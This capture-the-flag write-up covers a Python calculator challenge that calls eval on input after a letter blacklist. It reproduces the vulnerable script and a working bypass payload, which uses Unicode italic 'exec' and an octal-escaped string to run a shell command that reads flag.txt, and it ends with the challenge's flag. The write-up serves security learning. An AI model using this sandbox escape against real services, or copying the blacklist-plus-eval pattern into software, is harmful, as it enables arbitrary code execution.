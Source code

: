 ## Name: Calculator
#### Author: @awesome10billion
#### Category: pwn
#### Difficulty: medium
#### Description: Here's a calculator I made in Python for a class. Can you break it? 

## Procedure
The chall has the following python script
```
import sys

def simple_calculator():
    print("Welcome to the Simple Calculator!")
    print("Enter a mathematical expression:", end=' ')
    expression = input()
    sys.stdin.close()
    try:
        blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_"
        for x in expression:
            if x in blacklist:
                print(f"{x} is not allowed!")
                exit()
        result = eval(expression)
        print(f"The result is: {result}")
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    simple_calculator()
```
What the code does:
* Displays a Welcome Message.
* Prompts the User for a Mathematical Expression.
* Closes Standard Input (sys.stdin.close()) – This is unnecessary and can cause issues.
* Checks for Blacklisted Characters (a-z, A-Z, _).
* If any of these characters are in the input, it prints an error message and exits.
* Evaluates the Expression Using eval(expression).

The script attempts to prevent malicious input by blacklisting letters. However, it doesn’t block unicode and numbers, after read about I have used the following payload with unicode and octal.


```𝘦𝘹𝘦𝘤('\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\143\141\164\40\146\154\141\147\56\164\170\164\47\51')```


<img width="1118" alt="Screenshot 2025-03-05 at 8 07 53 AM" src="https://github.com/user-attachments/assets/90340b3b-2cf9-418a-a5d5-8727a134137d" />


flag ```flag{46816031cb2177d2b9cbffe66a93d415}```

